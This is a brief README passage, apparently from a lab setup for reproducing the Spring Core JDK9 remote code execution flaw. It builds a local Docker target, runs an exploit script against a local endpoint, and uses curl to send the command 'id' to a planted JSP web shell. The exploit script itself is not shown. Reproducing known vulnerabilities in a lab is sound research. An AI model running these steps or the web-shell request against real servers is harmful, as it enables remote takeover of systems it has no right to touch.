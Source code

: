 # How to reproduce
./mvnw clean package

docker-compose down --rmi all

docker-compose up --build

python3 exp.py --url http://localhost:8080/springshell/greeting

curl --output - "http://localhost:8080/tomcatwar.jsp?pwd=j&cmd=id"

https://www.praetorian.com/blog/spring-core-jdk9-rce/